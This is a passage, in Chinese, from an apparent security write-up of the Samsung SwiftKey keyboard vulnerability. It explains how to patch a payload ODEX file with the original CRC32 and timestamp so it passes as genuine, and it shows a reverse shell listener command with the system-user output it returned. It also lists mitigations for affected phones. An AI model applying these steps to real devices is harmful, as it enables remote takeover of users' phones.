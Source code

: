作为 .ODEX 头的一部分,其存储CRC32以及classes.dex的修改时间,它根据原始APK的zip文件结构表：

	unzip -vl SM-G900V_KOT49H_DeviceTest.apk classes.dex
	       Archive:  SM-G900V_KOT49H_DeviceTest.apk
	        Length   Method    Size  Ratio   Date   Time   CRC-32    Name
	       --------  ------  ------- -----   ----   ----   ------    ----
	         643852  Defl:N   248479  61%  06-22-11 22:25  f56f855f  classes.dex
	       --------          -------  ---                            -------
	         643852           248479  61%                            1 file
		 
需要从zip文件中拉取这两点信息对载荷dex文件进行 patch,让其看上去像是从原始DeviceTest.apk生成的.请注意,CRC32以及文件修改时间并不能作为一种安全机制.需要了解的是,因为应用更新了所有缓存才需要更新.

Patching ODEX文件并触发漏洞,之后将会执行payload.因为是测试,所以这里只弹了个 shell.

	nc 192.168.181.96 8889
	       id
	       uid=1000(system) gid=1000(system) groups=1000(system),1001(radio),1007(log),1010(wifi),1015(sdcard_rw),1021(gps),1023(media_rw),1024(mtp),1028(sdcard_r),2001(cache),3001(net_bt_admin),3002(net_bt),3003(inet),3004(net_raw),3005(net_admin),3009(qcom_diag),41000(u0_a31000) context=u:r:system_app:s0

需要注意一点:生成 odex 载荷对应特定的三星设备.也就是说不同的设备/相同设备的不同系统版本需要单独生成 odex 载荷.还好Swift输入法在http 的UA中给咱们提供了这些信息..

	 'User-Agent': 'Dalvik/1.6.0 (Linux; U; Android 4.4.2; SM-G900T Build/KOT49H)'
	 
## Mitigations

---

有 root 权限的设备可以卸载此输入法.

	adb shell pm list packages -f |grep IME

找到文件后切换到 root 权限进入目录删除.或者禁用此输入法

	pm disable com.samsung.inputmethod

没有 root 的权限的设备可以在收到 OTA 之后尽快升级.

如果你的设备三星以及不推送更新了,那就尽量不要加入一些陌生 wifi.如果大表哥要打你,你是挡不住的.

## Device

---

2015.6.16受影响设备统计 (都是美帝运营商的)
